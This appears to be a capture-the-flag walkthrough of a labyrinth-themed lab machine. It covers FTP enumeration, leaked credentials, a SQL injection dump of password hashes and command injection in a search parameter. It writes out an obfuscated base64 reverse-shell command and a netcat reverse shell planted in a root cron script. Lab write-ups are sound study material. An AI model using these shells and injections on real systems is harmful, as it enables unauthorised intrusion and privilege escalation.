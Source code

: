start with nmap

21	
80
443

ftp :port 21

anonymous login success.

get flag.txt keep_in_mind.txt message.txt

keep_in_mind.txt

```
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur

```

message.txt

```
Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur


```

username found : 

minotaur
daedalus

***

enumration of webpages

login.js


daedalus : g2e55kh4ck5r

***

login into daedalus

```
 <!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin -->

```

***

slq injectin found.

```
Database: labyrinth
Table: creatures
[4 entries]
+------------+--------------+----------------------------------+--------------------+
| idCreature | nameCreature | passwordCreature                 | permissionCreature |
+------------+--------------+----------------------------------+--------------------+
| 1          | Cerberos     | 3898e56bf6fa6ddfc3c0977c514a65a8 | user               |
| 2          | Pegasus      | 5d20441c392b68c61592b2159990abfe | user               |
| 3          | Chiron       | f847149233ae29ec0e1fcf052930c044 | user               |
| 4          | Centaurus    | ea5540126c33fe653bf56e7a686b1770 | user               |
+------------+--------------+----------------------------------+--------------------+


```


```
Database: labyrinth
Table: people
[5 entries]
+----------+--------------+----------------------------------+------------------+
| idPeople | namePeople   | passwordPeople                   | permissionPeople |
+----------+--------------+----------------------------------+------------------+
| 1        | Eurycliedes  | 42354020b68c7ed28dcdeabd5a2baf8e | user             |
| 2        | Menekrates   | 0b3bebe266a81fbfaa79db1604c4e67f | user             |
| 3        | Philostratos | b83f966a6f5a9cff9c6e1c52b0aa635b | user             |
| 4        | Daedalus     | b8e4c23686a3a12476ad7779e35f5eb6 | user             |
| 5        | M!n0taur     | 1765db9457f496a39859209ee81fbda4 | admin            |
+----------+--------------+----------------------------------+------------------+


```

M!n0taur : aminotauro

log in

?search= has cmd execution

bypass with `|`

***

shell.

```bash
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4xMzMuMyAxMjM0ID4vdG1wL2Yg | base64 -d | bash

```

***
get into machine.

users with shell.

anonftp
minotaur
root

***

got password from
/var/www/html/dbConnect.php

```
$servername = "localhost";
$db = "labyrinth";
$usr = "root";
$pwd = "";
//$pwd = "bQXHS5KnfGAHaa383nFjT42AUMyWb";


```


crontab as root

/timers/timer.sh


echo "rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.133.3 1337 >/tmp/f" > /timers/timer.sh